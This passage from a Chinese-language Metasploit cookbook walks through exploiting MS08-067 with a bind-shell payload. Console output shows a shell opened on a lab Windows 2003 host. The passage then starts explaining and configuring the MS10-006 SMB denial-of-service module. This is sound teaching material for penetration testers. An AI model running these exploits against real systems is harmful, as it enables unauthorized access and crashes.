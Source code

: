 再次，`Id`值`0`表明我们不需要指定目标操作系统。

1.  一旦我们完成了利用加载过程，下一步将是设置有效载荷。我们将在目标机器上再次设置一个`tcp_bind` shell，就像我们之前讨论的那样。

```
msf exploit(ms08_067_netapi) > set payload
windows/shell/bind_tcp
payload => windows/shell/bind_tcp
msf exploit(ms08_067_netapi) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

所以现在，我们的利用和有效载荷已经准备好了。下一步也是最后一步是使用`exploit`命令。让我们分析执行的结果：

```
msf exploit(ms08_067_netapi) > exploit
[*] Started bind handler
[*] Automatically detecting the target...
[*] Fingerprint: Windows 2003 SERVER - Service Pack 2 - lang:English
[*] Selected Target: Windows 2003 Server SP2 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (240 bytes) to 192.168.56.102
[*] Command shell session 1 opened (192.168.56.101:43408 -> 192.168.56.102:4444) at 2011-11-02 21:25:30 +0530
C:\WINDOWS\system32> 
```

太棒了！我们与目标建立了 shell 连接。这使我们可以通过命令行访问目标机器。您可以看到 Metasploit 在渗透目标机器方面有多么强大。这确实极大地简化了我们的任务。让我们快速看一下我们在这个示例中使用的利用。

## 工作原理...

该模块利用了`netapi32.dll`路径规范化代码中的解析漏洞，通过服务器服务。该模块能够绕过一些操作系统和服务包上的 NX。必须使用正确的目标来防止服务器服务（以及同一进程中的其他几个服务）崩溃。

# Windows 7/Server 2008 R2 SMB 客户端无限循环

对于 Windows 7 和 Windows Server 2008，可用的利用非常少。SMB 客户端无限循环是一种会导致系统崩溃的漏洞。这种漏洞不会提供任何会话或 shell 连接，但值得讨论。我们将在*理解 Windows DLL 注入漏洞*示例中讨论 Windows 7 中的 DLL 注入漏洞。

Microsoft Windows Server 2008 R2 和 Windows 7 中的 SMB 客户端允许远程 SMB 服务器和中间人攻击者通过 SMBv1 或 SMBv2 响应数据包导致拒绝服务（无限循环和系统挂起）。数据包包含 NetBIOS 标头中的不正确长度值或此响应数据包末尾的附加长度字段。这个不正确的标头值是漏洞的主要原因。

## 准备工作

Metasploit 包含一个辅助模块`auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop`，可以用来利用 SMB 服务器并导致拒绝服务。攻击向量通过将 UNC 路径传递到网页并要求用户执行它来工作。一旦用户打开共享文件，系统将完全崩溃，目标将被迫重新启动。

## 如何做...

要开始使用这个辅助模块，我们必须执行`use`命令以及模块的路径。然后，我们将继续设置所需的参数并执行模块。让我们继续实际实施这些步骤：

```
msf > use auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop
msf auxiliary(ms10_006_negotiate_response_loop) > show options
Module options (auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop):
Name Current Setting Required Description
---- --------------- -------- -----------
SRVHOST 0.0.0.0 yes The local host..
SRVPORT 445 yes The SMB port to listen
SSL false no Negotiate SSL..
SSLCert no Path to a custom SSL
SSLVersion SSL3 no Specify the version.. 
```
